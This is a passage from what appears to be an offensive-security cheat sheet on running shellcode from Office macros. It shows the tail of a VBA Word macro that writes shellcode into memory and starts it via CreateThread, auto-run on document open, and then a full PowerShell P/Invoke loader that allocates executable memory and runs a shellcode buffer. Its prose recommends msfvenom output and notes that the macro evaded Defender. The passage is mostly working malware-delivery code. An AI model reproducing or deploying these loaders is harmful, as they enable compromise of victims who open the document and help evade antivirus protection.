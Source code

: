 ```text
    For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
    DocMacro
End Sub
Sub AutoOpen()
    DocMacro
End Sub
```

Note that the shell will die when the victim closes word with this variant. Should you want to generate shellcode via msfvenom use the "vbapplication" output \(32-Bit\). Interestingly this does not get caught by defender \(12/2020\).

### Run Shellcode from Macro via PowerShell

Look for useful P/Invoke calls on www.pinvoke.net. Then create a PowerShell script like the following:

```text
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@
Add-Type $Kernel32

[Byte[]] $buf = 0xfc,...
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
